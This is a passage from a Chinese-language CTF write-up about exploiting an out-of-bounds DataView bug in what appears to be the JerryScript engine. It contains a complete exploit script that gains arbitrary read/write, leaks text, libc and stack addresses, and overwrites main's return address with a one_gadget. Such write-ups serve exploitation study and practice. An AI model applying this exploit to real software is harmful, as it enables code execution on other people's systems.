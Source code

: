 第一个箭头是buffer_p，第二个是length。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0115ac81862664f7d1.png)

可以看到这两个DataView对象离得不远，然后我们可以通过OOB用第一个去设置第二个的Buffer，造成ABR/W，然后leak textbase，leak libc，leak stack ，最终改写main函数返回地址为One_gadget。

### <a class="reference-link" name="3.Exploit"></a>3.Exploit

Ubuntu20.04，题目给的Binary不好下断点的话，就用assert就行了。

```
var buffer = new ArrayBuffer(0x10)
var buffer2 = new ArrayBuffer(0x10)
data2=new DataView(buffer,0,0x100)
data=new DataView(buffer2,0,0x100)
data.setUint32(0,0x41414141)
data.setUint32(4,0x41414141)
data2.setUint32(0,0x42424242)
data2.setUint32(4,0x42424242)
jerry_gloal_heap_offset=0x68
jerry_gloal_heap=data.getUint32(jerry_gloal_heap_offset+4,true)*0x100000000+data.getUint32(jerry_gloal_heap_offset,true)
text_base=jerry_gloal_heap-0x6d458
realloc_got=text_base+0x00000000006bf00+0x10
print(jerry_gloal_heap.toString(16))
print(text_base.toString(16))
print(realloc_got.toString(16))
data.setUint32(jerry_gloal_heap_offset,realloc_got&amp;0xffffffff,true)

libc_base=data2.getUint32(4,true)*0x100000000+data2.getUint32(0,true)-0x9e000
print(libc_base.toString(16))
env=libc_base+0x1ef2e0-0x10
print(env.toString(16))
data.setUint32(jerry_gloal_heap_offset,env&amp;0xffffffff,true)
data.setUint32(jerry_gloal_heap_offset+4,env/0x100000000,true)

stack=data2.getUint32(4,true)*0x100000000+data2.getUint32(0,true)
print(stack.toString(16))
ret_addr=stack-0x108-0x10
ogg=libc_base+[0xe6c7e,0xe6c81,0xe6c84][1]
data.setUint32(jerry_gloal_heap_offset,ret_addr&amp;0xffffffff,true)
data.setUint32(jerry_gloal_heap_offset+4,ret_addr/0x100000000,true)
data2.setUint32(0,ogg&amp;0xffffffff,true)
data2.setUint32(4,ogg/0x100000000,true)

//assert(1==2)
```

[![](https://p2.ssl.qhimg.com/t014b8fdfb76dabe737.png)](https://p2.ssl.qhimg.com/t014b8fdfb76dabe737.png)
